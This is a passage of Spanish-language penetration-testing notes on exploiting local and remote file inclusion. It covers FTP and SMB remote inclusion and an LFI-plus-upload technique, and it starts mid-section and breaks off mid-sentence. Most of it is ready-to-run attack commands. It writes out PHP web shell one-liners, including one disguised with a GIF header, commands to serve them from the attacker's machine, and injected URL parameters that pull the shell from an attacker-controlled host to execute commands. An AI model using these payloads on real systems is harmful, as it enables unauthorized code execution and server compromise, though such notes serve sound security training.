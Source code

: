levantamos un servidor FTP local:

```bash
sudo python -m pyftpdlib -p 21
```

llamamos a nuestro archivo PHP:

```bash
?language=ftp://user:pass@localhost/shell.php&cmd=id
```

#### SMB REMOTE FILE

Si la aplicación web vulnerable está alojada en un servidor de Windows (que podemos saber por la versión del servidor en los encabezados de respuesta HTTP), entonces **NO** necesitamos que la configuración`allow_url_include` esté habilitada para la explotación de RFI, ya que podemos utilizar el protocolo SMB para el inclusión remota de archivos.

Creamos una reverse shel en nuestra maquina local:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

levantamos un servidor SMB local:

```bash
impacket-smbserver -smb2support share $(pwd)
```

llamamos a nuestro archivo PHP:

```bash
?language=\\<OUR_IP>\shell.php&cmd=whoami
```

>[!note]
>Debemos tener en cuenta que esta técnica es mas probable que funcione cuando se esta en la msma red local.

### LFI Y FILE UPLOAD

#### GIF FILE

Si es posible la carga de archivos, cree uno con el siguiente contenido:

```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

Este archivo por sí solo es completamente inofensivo y no afectaría en lo más mínimo a las aplicaciones web normales. Sin embargo, si lo combinamos con una vulnerabilidad LFI, es posible que podamos alcanzar la ejecución remota del código.

>[!tip]
>Podemos usar cualquier tecnica de **File Upload vulnerabilities** para la carga exitosa de un archivo.

Necesitamos saber la ruta a nuestro archivo cargado. En la mayoría de los casos, especialmente con imágenes, obtendríamos acceso a nuestro archivo cargado y podemos obtener su ruta desde su URL. En nuestro caso, si inspeccionamos el código fuente después de subir la imagen, podemos obtener su URL:
